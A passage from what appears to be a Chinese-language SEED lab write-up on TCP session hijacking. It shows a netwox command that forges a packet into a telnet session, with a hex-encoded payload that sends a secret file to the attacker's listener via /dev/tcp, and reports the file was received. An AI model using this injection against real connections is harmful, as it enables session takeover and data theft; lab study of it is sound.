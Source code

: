 依次修改为本次TCP的参数，netwox 40需要root权限

```bash
sudo netwox 40 --ip4-src 192.168.136.132 --ip4-dst 192.168.136.136 --tcp-src 41754 --tcp-dst 23 --tcp-seqnum 1232486293 --tcp-acknum 615320578 --tcp-window 156 --tcp-data '0d20636174202f686f6d652f736565642f736563726574203e202f6465762f7463702f3139322e3136382e3133362e3133302f39303930200d'
```

![image-20220309090137664](TCPIPAttackLab/image-20220309090137664.png)

在攻击机的监听端口，我们收到了secret的内容

![image-20220309083935997](TCPIPAttackLab/image-20220309083935997.png)

WireShark也检测到了本次连接。
